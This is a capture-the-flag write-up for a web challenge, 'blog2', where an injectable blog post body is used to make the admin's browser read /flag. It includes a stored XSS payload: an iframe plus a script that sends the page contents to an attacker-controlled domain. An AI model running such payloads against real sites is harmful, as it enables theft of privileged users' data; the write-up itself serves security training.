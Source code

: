 # blog2
Author: rvino
## Description
```
`/flag`

```

When you register an account, you quickly discover that you are not allowed to read the flag without being an admin.
This means we either have to become the admin, trick the admin into giving us the flag.

By testing the blog posting form, we quickly find that the body is injectable. We check the cookies and realize that they are HttpOnly, and thus we cannot steal the admin's cookie.

We can however trick the admin into reading the `/flag` contents and send it to us. We can either use fetch to get the content, or we can use and iframe. I will show the the old school iframe variant.

Body:

```
<iframe id="ifr" src="/flag"></iframe>
<script>
setTimeout(function() {
    var data = document.getElementById('ifr').contentDocument.body.innerHTML;
    var img = new Image();
    img.src = "//<attack-controlled-domain>/?data=" + btoa(data);
}, 2000)
</script>
```
We inject an iframe pointing to the flag. We use a setTimeout with 2 seconds, to delay the execution of the script untill the iframe has hopefully loaded. We then grab the contents, base64 encode it with `btoa` (Binary-TO-Ascii) and send it to a host we control. When solving this, Burp Collaborator was used as the attacker controlled domain.
